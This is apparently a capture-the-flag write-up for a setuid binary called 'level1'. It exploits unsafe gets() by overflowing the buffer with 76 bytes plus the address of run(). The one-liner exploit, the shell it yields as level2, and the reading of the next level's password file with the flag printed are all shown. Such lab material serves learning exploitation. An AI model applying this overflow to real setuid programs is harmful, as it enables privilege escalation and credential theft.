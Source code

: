```sh
$> ls -l ~
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

The use of `gets()` is a security risk.  
In this case, we can use this vulnerability to gain 'level2' access.
We retrieve the address of `run()` and we overflow the buffer with 76 chars + the address of the function.

```sh
$> whoami
level1

$> (python -c "print('a' * 76 +'\x44\x84\x04\x08')"; cat) | ./level1
Good... Wait what?
$ whoami
level2
$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
$ ^C
Segmentation fault (core dumped)
```
